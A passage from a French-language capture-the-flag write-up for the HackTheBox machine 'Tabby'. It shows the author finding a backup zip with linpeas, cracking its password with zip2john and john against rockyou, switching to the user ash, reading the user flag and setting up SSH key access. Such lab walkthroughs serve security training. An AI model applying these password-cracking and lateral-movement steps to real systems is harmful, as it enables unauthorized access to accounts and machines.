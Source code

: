 ### Ash backup file - user flag
```bash
» cat linpeas.out | grep ash | tail
...
-rw-r--r-- 1 ash ash 8716 Jun 16  2020 /var/www/html/files/16162020_backup.zip <--------- HERE
...
-rw-r--r-- 1 root root 220 Feb 25  2020 /snap/core20/1081/etc/skel/.bash_logout
-rw-r--r-- 1 root root 220 Feb 25  2020 /etc/skel/.bash_logout
-rw-r--r-- 1 tomcat tomcat 220 Feb 25  2020 /opt/tomcat/.bash_logout

# Sur kali
$ zip2john 16162020_backup.zip > hash.txt

$ john --format=PKZIP hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)     
1g 0:00:00:01 DONE (2025-05-05 19:03) 0.9615g/s 9972Kp/s 9972Kc/s 9972KC/s adzlogan..adamsapple:)1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
On peut utiliser ce mot de passe pour elever nos privilèges vers l'utilisateur **ash**:
```bash
tomcat@tabby:/home$ 
tomcat@tabby:/home$ su ash
Password: admin@it
ash@tabby:/home$ whoami
ash
ash@tabby:/home$ cd ash/
ash@tabby:~$ cat user.txt 
fb78.....79f6
```

### Ash - SSH connexion
```bash
ash@tabby:~/.ssh$ ssh-keygen
...
ash@tabby:~/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub

----------------------

» ssh ash@10.10.10.194 -i ash.key # <-- avec la clé privée
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-31-generic x86_64)

.....
Last login: Tue May 19 11:48:00 2020
ash@tabby:~$ 
```
